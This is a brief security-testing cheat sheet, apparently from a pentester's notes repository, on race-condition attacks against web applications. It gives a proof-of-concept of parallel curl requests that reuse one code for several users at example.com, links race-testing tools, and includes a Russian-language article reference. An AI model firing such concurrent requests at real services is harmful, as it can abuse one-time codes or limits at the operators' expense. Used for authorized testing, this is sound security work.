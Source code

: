 # Race Condition

## Base PoC

```
curl -X GET 'https://example.com/?code=123&user=1' & \
curl -X GET 'https://example.com/?code=123&user=2' & \
curl -X GET 'https://example.com/?code=123&user=3' & \
curl -X GET 'https://example.com/?code=123&user=4' & \
curl -X GET 'https://example.com/?code=123&user=5' & \
wait
```

## Some tools

Race-the-Web (Go):[ https://github.com/aaronhnatiw/race-the-web](https://github.com/aaronhnatiw/race-the-web)

racepwn (Python): [https://github.com/racepwn/racepwn](https://github.com/racepwn/racepwn)

## Статьи

Удержание там через gate штуку. Собственно, семпл из репы [https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/race.py](https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/race.py)

[https://bo0om.ru/race-condition-ru](https://bo0om.ru/race-condition-ru) и соотв тулза racepwn к ней



